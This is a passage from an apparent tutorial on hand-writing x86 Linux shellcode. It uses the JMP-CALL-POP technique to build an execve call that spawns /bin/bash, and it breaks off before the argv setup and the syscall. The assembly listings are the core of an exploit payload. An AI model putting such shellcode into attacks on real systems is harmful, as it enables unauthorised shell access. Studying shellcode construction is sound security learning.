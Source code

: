 ```
        mov dword [esi + 10], esi
        mov dword [esi + 14], ebx
 
call_shellcode:

        call shellcode 
        message db "/bin/bashABBBBCCCC"
```

Now, if you look at the structure

```
		 ---------------------------------------
ESI ---> | /bin/bash | 0x0 | Addr | 0x00000000 |
		 ---------------------------------------
```

and if you compare it with what we require for `execve` you would
notice that we have all elements in there.

Now, `ebx` needs to point to a string in memory which is nothing but
`/bin/bash` null-terminated, which means `ebx` needs to contain the
same value as `esi` because that is already pointing to `/bin/bash`
in memory. So for this we will use `lea` or load effective address.

```
global _start

section .text
_start:

        jmp short call_shellcode
        

shellcode: 

        pop esi

        xor ebx, ebx
        mov byte [esi + 9], bl
        mov dword [esi + 10], esi
        mov dword [esi + 14], ebx

        lea ebx, [esi]
 
call_shellcode:

        call shellcode 
        message db "/bin/bashABBBBCCCC"
```

Now, the second thing with `argv` which is basically needs to be 
loaded using `ecx`. Now, if you recall `argv` is nothing but an 
address which points to a structure which contains the address of the
`/bin/bash` and then a NULL. So
